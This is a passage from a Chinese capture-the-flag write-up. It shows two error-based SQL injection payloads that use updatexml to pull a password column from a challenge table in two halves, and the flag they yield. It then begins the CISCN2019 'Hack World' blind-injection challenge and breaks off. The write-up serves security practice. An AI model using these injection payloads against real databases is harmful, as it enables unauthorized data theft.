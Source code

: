 发现flag已经出来了但是不完整
`asd'^updatexml(1,concat('~',(select(group_concat(left(password,30)))from(H4rDsq1)),'~'),1)#`
![在这里插入图片描述](img/63ec3a67cccb6cc5d05a3fa712120090.png)

`asd'^updatexml(1,concat('~',(select(group_concat(right(password,30)))from(H4rDsq1)),'~'),1)#`
![在这里插入图片描述](img/46308d3fcb59e73b24edd7e0a509b943.png)
拼接出flag
`flag{60101a3c-f348-44c7-9029-c56ec7fe5bd5}`

**我老爷天啊，括号真的看得我眼疼，对于想多输几遍练练手但是一直输错的我极其不友好**

# [CISCN2019 华北赛区 Day2 Web1]Hack World

揉揉眼，看这个题

![在这里插入图片描述](img/502bac9b64b1ac92870b040eb32df010.png)
![在这里插入图片描述](img/346f0e2a749348e026f85225a6eb4ad5.png)
输了一个单引号进去，看来是个盲注啊…
![在这里插入图片描述](img/ea6bec1d091187d324bed64725922737.png)